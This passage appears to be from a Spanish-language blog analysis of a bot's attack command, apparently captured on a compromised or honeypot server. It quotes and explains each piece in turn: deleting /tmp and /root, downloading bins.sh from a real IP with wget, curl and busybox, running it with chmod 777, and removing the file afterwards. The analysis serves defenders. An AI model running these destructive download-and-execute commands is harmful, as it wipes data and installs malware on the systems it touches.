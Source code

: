 Ahora, desglosémoslo para entender qué está pasando acá:

1. **`cd /tmp; rm -rf /tmp/*`**: El bot comienza intentando acceder al directorio temporal (`/tmp`) y borrar todos los archivos dentro de él. Esto podría ser para eliminar archivos de rastreo o cualquier artefacto dejado por su actividad.
    
2. **`|| cd /var/run || cd /mnt || cd /root`**: Si no puede borrar `/tmp`, intenta cambiar a otros directorios como `/var/run`, `/mnt` o `/root`. Estos son directorios importantes donde podría encontrar archivos útiles para lo que está buscando.
    
3. **`rm -rf /root/*`**: Si llega al directorio `/root`, también intenta eliminar todos los archivos allí, lo que puede ser para destruir datos o borrar cualquier evidencia de su presencia.
    
4. **`cd /; wget http://37.44.238.92/bins.sh; curl -O http://37.44.238.92/bins.sh`**: Después, se mueve a la raíz del sistema (`/`) y usa `wget` o `curl` para descargar un archivo desde un servidor externo (en este caso, `http://37.44.238.92/bins.sh`). Este archivo probablemente sea malicioso y contenga un script o payload, lo vamos a estar analizando mas adelante.
    
5. **`/bin/busybox wget http://37.44.238.92/bins.sh`**: Acá usa `busybox`, una herramienta común en sistemas embebidos o con pocos recursos, para volver a descargar el mismo archivo. Esto muestra que el bot tiene métodos redundantes para asegurar que el archivo malicioso llegue.
    
6. **`chmod 777 bins.sh; ./bins.sh; sh bins.sh`**: Luego, cambia los permisos del archivo descargado (`bins.sh`) para poder ejecutarlo con todos los privilegios (`chmod 777`), y lo ejecuta con `./bins.sh` o `sh bins.sh`. Esto hace que el script malicioso se ejecute.
    
7. **`rm bins.sh`**: Finalmente, después de ejecutar el script malicioso, borra el archivo descargado (`bins.sh`), lo que ayuda a eliminar cualquier rastro y complica la detección.
    

Este tipo de comandos muestra que el bot está intentando comprometer aún más el servidor, probablemente para instalar algún malware o establecer un punto de acceso persistente desde donde pueda seguir controlando el equipo. Además, parece que está intentando **ocultar sus huellas** y **eliminar evidencia** para que no se detecte tan fácilmente (están muy pillos con esto).



## 37.44.238.92
---
